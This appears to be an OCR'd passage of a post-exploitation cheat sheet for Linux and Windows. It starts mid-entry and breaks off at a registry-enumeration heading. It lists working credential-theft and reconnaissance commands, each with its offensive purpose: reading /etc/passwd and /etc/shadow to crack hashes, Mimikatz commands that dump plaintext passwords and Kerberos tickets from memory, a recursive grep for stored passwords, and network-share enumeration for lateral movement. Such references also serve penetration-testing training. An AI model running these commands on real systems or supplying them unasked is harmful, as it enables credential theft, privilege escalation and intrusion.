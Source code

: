 Check cron jobs for scripts or binaries that can be exploited for privilege escalation.

---

### Linux Password File Enumeration

```
cat /etc/passwd
```

Enumerate system users to identify possible targets or weak accounts.

---

### Linux Shadow File Enumeration

```
cat /etc/shadow
```

Access hashed passwords for cracking to escalate privileges.

---

### Windows Password Dump via Mimikatz

```
privilege::debug
sekurlsa::logonpasswords
exit
```

Extract plaintext passwords, hashes, PINs, and Kerberos tickets from Windows memory.

---

### Linux Credentials Search

```
grep -iR 'password' /etc /home /var/www
```

Search for hardcoded credentials in configuration files and scripts for escalation opportunities.

---

### Windows Network Shares Enumeration

```
net view \\TARGET_IP
```

List available network shares to locate sensitive files for lateral movement or data exfiltration.

---

### Windows Registry Enumeration
